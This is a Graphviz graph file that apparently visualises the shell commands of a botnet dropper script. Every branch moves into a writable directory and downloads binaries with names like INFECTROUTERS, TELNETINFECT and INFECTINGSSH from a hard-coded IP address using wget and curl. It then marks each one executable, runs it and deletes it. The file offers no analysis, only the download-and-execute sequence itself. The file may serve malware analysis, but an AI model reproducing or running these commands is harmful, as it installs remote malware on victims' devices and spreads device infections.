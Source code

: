 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.165.29.66/INFECTROUTERS "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.165.29.66/INFECTROUTERS "];
12 -> 14 [label=";,"];
14 [label="chmod +x INFECTROUTERS "];
14 -> 16 [label=";,"];
16 [label="./INFECTROUTERS "];
16 -> 18 [label=";,"];
18 [label="rm -rf INFECTROUTERS "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.165.29.66/TELNETINFECT "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.165.29.66/TELNETINFECT "];
32 -> 34 [label=";,"];
34 [label="chmod +x TELNETINFECT "];
34 -> 36 [label=";,"];
36 [label="./TELNETINFECT "];
36 -> 38 [label=";,"];
38 [label="rm -rf TELNETINFECT "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.165.29.66/INFECTINGSSH "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.165.29.66/INFECTINGSSH "];
52 -> 54 [label=";,"];
54 [label="chmod +x INFECTINGSSH "];
54 -> 56 [label=";,"];
56 [label="./INFECTINGSSH "];
56 -> 58 [label=";,"];
58 [label="rm -rf INFECTINGSSH "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.165.29.66/bashINFECTION "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.165.29.66/bashINFECTION "];
72 -> 74 [label=";,"];
74 [label="chmod +x bashINFECTION "];
74 -> 76 [label=";,"];
76 [label="./bashINFECTION "];
76 -> 78 [label=";,"];
78 [label="rm -rf bashINFECTION "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.165.29.66/tftpION "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.165.29.66/tftpION "];
92 -> 94 [label=";,"];
94 [label="chmod +x tftpION "];
94 -> 96 [label=";,"];
96 [label="./tftpION "];
96 -> 98 [label=";,"];
98 [label="rm -rf tftpION "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.165.29.66/wgeting "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.165.29.66/wgeting "];
112 -> 114 [label=";,"];
114 [label="chmod +x wgeting "];
114 -> 116 [label=";,"];
116 [label="./wgeting "];
116 -> 118 [label=";,"];
118 [label="rm -rf wgeting "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.165.29.66/crononums "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.165.29.66/crononums "];
132 -> 134 [label=";,"];
134 [label="chmod +x crononums "];
134 -> 136 [label=";,"];
136 [label="./crononums "];
136 -> 138 [label=";,"];
138 [label="rm -rf crononums "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.165.29.66/ftping "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.165.29.66/ftping "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftping "];
154 -> 156 [label=";,"];
156 [label="./ftping "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftping "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.165.29.66/pftping "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.165.29.66/pftping "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftping "];
174 -> 176 [label=";,"];
176 [label="./pftping "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftping "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.165.29.66/shing "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.165.29.66/shing "];
192 -> 194 [label=";,"];
194 [label="chmod +x shing "];
194 -> 196 [label=";,"];
196 [label="./shing "];
196 -> 198 [label=";,"];
198 [label="rm -rf shing "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.165.29.66/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.165.29.66/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.165.29.66/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.165.29.66/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.165.29.66/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.165.29.66/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
